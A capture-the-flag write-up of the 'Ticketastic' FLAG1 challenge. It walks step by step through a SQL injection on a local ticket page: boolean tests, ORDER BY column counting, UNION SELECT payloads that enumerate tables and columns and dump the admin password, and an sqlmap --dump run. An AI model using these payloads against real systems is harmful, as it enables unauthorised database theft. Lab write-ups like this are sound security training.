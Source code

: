 # Ticketastic: Live Instance - FLAG1

## 0x00 Ticket Page

http://127.0.0.1/xxxxxxxxxx/ticket?id=1

![](../flag0/imgs/flag.jpg)

## 0x01 Try Modify Parameters 

```sql
ticket?id=1'
```

Get some error message

```
Traceback (most recent call last):
  File "./main.py", line 78, in ticket
    cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

So it uses MySQL database and seems can be injected here.

Double check by try. The first link works but the second one shows error.

```sql
ticket?id=1 AND 1=1
ticket?id=1 AND 1=2
```

## 0x02 Get Table Fields Number

```sql
ticket?id=1 AND 1=1 ORDER BY 10
ticket?id=1 AND 1=1 ORDER BY 3
```

Reduce **RDER BY** number until it shows web page properly again.

While **ORDER BY 4** still shows ERROR but **ORDER BY 3** can perform correct. This means the Table selection has 3 fields.

## 0x03 Check Output Locations

```sql
ticket?id=1.1 UNION SELECT 1,2,3--
```

![](./imgs/output.jpg)

## 0x04 Get Current Database Version, TABLE_SCHEMA

```sql
ticket?id=1.1 UNION SELECT VERSION(),DATABASE(),3--
```

![](./imgs/db.jpg)

## 0x05 Get TABLE_NAME

```sql
ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--
```

![](./imgs/tables.jpg)

So the useful TABLE_NAME = users

## 0x06 Get COLUMN_NAME

```sql
ticket?id=1.1 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='users'--
```

![](./imgs/columns.jpg)

## 0x07 Dump Data (FLAG)

```sql
ticket?id=1.1 UNION SELECT 1,password,3 FROM users WHERE username='admin'--
```

![](./imgs/flag.jpg)

## 0x08 Why Do Not Use SQLMAP?

Ok, let's do it with [SQLMAP][2] again.

### Catch the Request and Save to a File

Save the following request to the file [request.txt][1]
```
GET /xxxxxxxxxx/ticket?id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session_level7b={ADMIN SESSION}
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

And run the following command

```
python sqlmap.py -r request.txt --dump
```

![](./imgs/flag1.jpg)

[1]: ./request.txt
[2]: https://github.com/sqlmapproject/sqlmap